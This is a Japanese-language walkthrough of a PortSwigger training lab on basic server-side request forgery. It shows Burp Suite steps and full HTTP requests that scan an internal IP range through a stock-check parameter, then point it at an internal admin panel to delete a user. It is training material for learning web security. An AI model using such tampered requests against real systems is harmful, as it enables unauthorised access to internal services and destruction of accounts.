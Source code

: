 # 別のバックエンド システムに対する基本的な SSRF

以下のハッキングラボで実施します  
https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system

- 1. Burp Suite の Proxy タブからブラウザを起動します
- 2. ブラウザからハッキングラボにアクセスします
- 3. 製品ページにアクセスして、在庫チェックボタンを押します
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/5957658d-acc4-4363-8b8f-c78111a95b39)

- 4. POST /product/stock HTTP/2 リクエストを send to intruder します

- 5. intruder タブに移動し、リクエストの第 4 オクテッドをパラメータ化します。

- 6. Payloads タブでパラメータ設定します。Payload type: Numbers で１から 255 まで 1 刻みで攻撃開始し、バックエンドシステムの IP をサーチします
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/f61e4bbb-7afe-4d7e-9644-4f400556575c)

* 7. サーチした結果、404 コードを返す端末(192.168.0.226)が見つかりました。
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/a5e9b008-873b-4acb-94eb-1b49da0ceebb)

* 7. burp Suite を intercept on にして再び在庫チェックボタンを押します

* 8. リクエストを以下のように書き換えて送信します
     [変更前]

```
POST /product/stock HTTP/2
Host: 0a28006a0326d8d18163de5c0063008e.web-security-academy.net
Cookie: session=zUaOqGW1dbzMvA3O9hPJYARIiZ1h3w6h
Content-Length: 96
Sec-Ch-Ua:
Sec-Ch-Ua-Platform: ""
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a28006a0326d8d18163de5c0063008e.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a28006a0326d8d18163de5c0063008e.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

[変更後]

```
POST /product/stock HTTP/2
Host: 0a28006a0326d8d18163de5c0063008e.web-security-academy.net
Cookie: session=zUaOqGW1dbzMvA3O9hPJYARIiZ1h3w6h
Content-Length: 96
Sec-Ch-Ua:
Sec-Ch-Ua-Platform: ""
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a28006a0326d8d18163de5c0063008e.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a28006a0326d8d18163de5c0063008e.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

stockApi=http%3A%2F%2F192.168.0.226%3A8080%2Fadmin
```

![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/a7ee5460-2100-4046-88eb-e3caa05fd2b8)

- 9. Delete ボタンのリンクをコピーしてパラメータを確認します
     https://0a28006a0326d8d18163de5c0063008e.web-security-academy.net/http://192.168.0.226:8080/admin/delete?username=carlos

- 10. 再び在庫チェックボタンを押下してリクエストを書き換えます  
      [変更前]

```
POST /product/stock HTTP/2
Host: 0a28006a0326d8d18163de5c0063008e.web-security-academy.net
Cookie: session=zUaOqGW1dbzMvA3O9hPJYARIiZ1h3w6h
Content-Length: 96
Sec-Ch-Ua:
Sec-Ch-Ua-Platform: ""
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a28006a0326d8d18163de5c0063008e.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a28006a0326d8d18163de5c0063008e.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

[変更後]

```
POST /product/stock HTTP/2
Host: 0a28006a0326d8d18163de5c0063008e.web-security-academy.net
Cookie: session=zUaOqGW1dbzMvA3O9hPJYARIiZ1h3w6h
Content-Length: 96
Sec-Ch-Ua:
Sec-Ch-Ua-Platform: ""
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a28006a0326d8d18163de5c0063008e.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a28006a0326d8d18163de5c0063008e.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

stockApi=http%3A%2F%2F192.168.0.226%3A8080%2Fadmin%2Fdelete?username=carlos
```

これで一般ユーザーの削除が出来ました
